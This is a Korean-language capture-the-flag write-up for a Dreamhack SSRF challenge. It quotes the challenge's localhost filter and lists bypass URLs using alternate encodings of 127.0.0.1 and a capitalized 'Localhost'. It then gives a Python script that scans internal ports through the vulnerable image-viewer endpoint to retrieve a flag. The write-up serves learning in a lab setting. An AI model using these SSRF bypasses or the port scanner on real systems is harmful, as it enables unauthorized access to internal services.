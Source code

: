아주 재미있고 흥미로운 ssrf 문제이다 
여기서 알게된 가장 중요한 한 가지는 
리플에서 가동해도 콘솔이 아니라 shell로 가동하면 
포트값을 정확히 지정할 수 있어서 원하는 계산이 가능하다는 것이었다 
보통 쉘 코드로 파이썬 침투하는 경우에 (내 생각이 맞다면 일단 웹의 경우에) 
리플에 있는 shell로도 가능하다는 것을 알 수 있었다 
참고로 리플로 pwntools를 활용한 익스플로잇 등도 가능하다 

shell로 값을 브포한다음 
http://Localhost:1760/flag.txt로 들어가면 (브포 값은 저마다 다르다) 
REh7NDNkZDIxODkwNTY0Nz......2FkNzF9 이 값이 나오는데 
이 값을 base64로 디코딩하면 DH{43d....} 이렇게 나온다 


이 문제가 원하는 조건은 대략 세 가지로 볼 수 있는데 
1 Localhost  2 포트번호  3 /flag.txt 
이 세가지이다 실제로 이 세가지를 정확히 원하는 순서대로 써주면 원하는 플래그이다 

이번에 다시 공부하면서 새롭게 알게 된 부분은 
if url[0] == "/":
            url = "http://localhost:8000" + url
        # URL 필터링
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc): 
            data = open("error.png", "rb").read() 
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
            
원래 프로그램 본문에 위와 같은 url 필터링이 있다는 사실이었다. 
http://vcap.me:8000/
http://0x7f.0x00.0x00.0x01:8000/
http://0x7f000001:8000/
http://2130706433:8000/
http://Localhost:8000/
http://127.0.0.255:8000/
등을 통해서 들어가면 
<!doctype html> 관련된 내용이 나온다 (base64 복호화) 
아마도 내 생각에는 이 내용이 중요한 이유는 1번 조건을 충족해주기 때문인 거 같다
왜냐하면, http://localhost:8000/로 치면 not found 가 뜨기 때문이다. 
이 말의 의미는 localhost에 대해서 url 필터링을 하고 있다는 위의 내용과 정확히
일치한다. 따라서 localhost가 아닌 Localhost로 적어야 함을 역설하고 있는 것이다. 


#!/usr/bin/python3
import requests
import sys
from tqdm import tqdm
# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"
def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host1.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()

그 다음 부분은 바로 이 내용인데 이 문제의 하이라이트이다 
이 내용을 이용해서 replit 환경에서 shell 명령어를 사용하는 것이 주요하다고 말할 수 있다 
그 기본적인 답은 위에 적어 두었다. 
이런 식으로 port값까지 구하게 되면 
http://Localhost:port값/flag.txt  (/flag.txt는 문제 조건에 적혀있다) 를 image viewer에 치면 
원하는 플래그가 나오고 문제가 해결된다.  (위에서 말한 세 가지 조건이 모두 해결되었다!)
